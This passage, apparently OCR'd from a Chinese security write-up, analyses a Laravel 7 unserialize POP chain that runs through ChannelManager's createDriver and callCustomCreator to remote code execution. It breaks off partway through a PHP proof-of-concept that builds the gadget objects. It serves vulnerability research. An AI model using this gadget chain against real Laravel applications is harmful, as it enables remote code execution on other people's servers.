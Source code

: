 `$this-&gt;defaultChannel`的值是我们可控的，比如是 null，然后继续回到 driver 方法中，`$this-&gt;drivers` 我们可控，使其进入createDriver方法

```
protected function createDriver($driver)
`{`
    // We'll check to see if a creator method exists for the given driver. If not we
    // will check for a custom driver creator, which allows developers to create
    // drivers using their own customized driver creator Closure to create it.
    if (isset($this-&gt;customCreators[$driver])) `{`
        return $this-&gt;callCustomCreator($driver);
    `}` else `{`
        $method = 'create'.Str::studly($driver).'Driver';


        if (method_exists($this, $method)) `{`
            return $this-&gt;$method();
        `}`
    `}`
    throw new InvalidArgumentException("Driver [$driver] not supported.");
`}`
```

因为这里 `$customCreators` 是我们可控的，所以使if语句成立，进入 callCustomCreator 方法

```
protected function callCustomCreator($driver)
`{`
    return $this-&gt;customCreators[$driver]($this-&gt;container);
`}`
```

这里所有参数均可控可以造成 RCE , 然后构建 pop 链如下, 暂时只能传一个参数

```
&lt;?php

/*
# -*- coding: utf-8 -*-
# @filename: laravel 7 RCE poc1
# @author: Ricky
*/

namespace Illuminate\Broadcasting `{`
    class PendingBroadcast `{`
        protected $events;
        protected $event;
        public function __construct($events) `{`
            $this-&gt;events = $events;
        `}`
    `}`
`}`
// $this-&gt;events-&gt;dispatch($this-&gt;event);

namespace Illuminate\Notifications
`{`
    class ChannelManager
    `{`
        protected $container;
        protected $defaultChannel;
        protected $customCreators;

        function __construct($function, $parameter)
        `{`
            $this-&gt;container = $parameter;
            $this-&gt;customCreators = ['x' =&gt; $function];
            $this-&gt;defaultChannel = 'x';
```